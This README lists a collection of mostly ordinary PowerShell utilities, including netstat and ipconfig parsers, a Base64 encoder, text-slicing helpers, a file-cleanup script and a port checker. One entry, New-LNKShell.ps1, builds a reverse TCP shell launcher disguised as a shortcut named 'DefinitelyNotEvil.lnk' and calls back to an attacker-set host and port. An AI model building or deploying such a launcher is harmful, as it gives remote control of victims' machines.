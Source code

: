 This repository contains simple PowerShell tools used for parsing text, remotely gathering data, and doing stupid
things like encoding and decoding Base64.

#NetworkParsers
Collection of tools for parsing output of basic network commands

##Import-Netstat
Parses saved Netstat output (supports any/all of -a, -n, -o) and returns an object.

```
Import-Netstat -Path C:\Path\To\File(s)
```

##Import-IPConfig
Parses text files containing output of ipconfig or ipconfig /all and returns an object.

```
Import-IPConfig -Path C:\Path\To\File(s)
```
---
##Get-Base.ps1
Encode text to a Base64 string and back again.

```
Get-Base -String 'Hello World!' >>> SGVsbG8gV29ybGQh
Get-Base -Base64 'SGVsbG8gV29ybGQh' >>> Hello World!
```

##Get-Slice.ps1
Grab a slice of text from target file. Ideally this merges with Get-Substring.

```
Get-Slice.ps1 -Text "sample.txt" -Start "The quick brown" -End "lazy dog"
```

##Get-Substring.ps1
Returns the text between two strings.

```
Get-Substring -Start 'The quick' -End 'lazy dog' -Path C:\StoryAboutAFox.txt
```

##New-LNKShell.ps1
Creates a reverse TCP shell launcher embedded in a LNK file.

```
New-LNKShell -LHOST 192.168.1.1 -LPORT -1234 -OutPath C:\Path\To\My\Shell -Filename DefinitelyNotEvil.lnk
```

##Remove-Files.ps1
Removes files older than n days. Defaults to C:\Users\<YOU>\Downloads and 30 days

```
Remove-Files -Path C:\Path\To\Files -MaxAge 60
```

##Test-Port.ps1
Checks for open port and returns $True if open.

```
Test-Port.ps1 -Protocol TCP -Port 3389 -Targets 192.168.1.10
```

